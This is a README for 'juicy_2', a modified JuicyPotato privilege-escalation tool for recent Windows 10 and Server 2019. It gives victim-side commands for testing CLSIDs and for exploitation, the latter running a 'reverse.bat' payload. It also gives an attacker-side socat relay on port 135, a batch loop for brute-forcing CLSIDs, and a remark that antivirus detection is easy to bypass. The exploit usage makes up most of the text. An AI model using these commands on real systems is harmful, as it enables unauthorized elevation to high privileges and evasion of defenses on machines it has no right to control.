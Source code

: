 # juicy_2
JuicyPotato for Win10 > 1803 &amp; Win Server 2019<br>
Please read my blog post first: https://decoder.cloud/2020/05/30/the-impersonation-game/ <br>
<hr>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's and to impersonate them (YOU NEED IMPERSONATION PRIVILEGES) for newer Windows 10 and Windows Server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<hr>
Mandatory requisite is to have the possibility to redirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<hr>
<i><b>For testing CLSID:</i></b><br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID to test]<br>
Example:<br>
  on victim:<br>
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995 
<br>
  <i><b>For exploitation:</i></b><br>
  on victim:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995<br>
<hr>  
<b>Hunting for juicy CLSID's with a stupid batch:</b><br>
@echo off<br>
FOR /F %%i IN (clsid.list) DO (<br>
   .\juicy_2 -z -x 192.168.1.1 -n 9998 -l 9995 -c %%i >> .\out.txt<br>
   timeout /t 2<br>
 )<br>
 
  

  
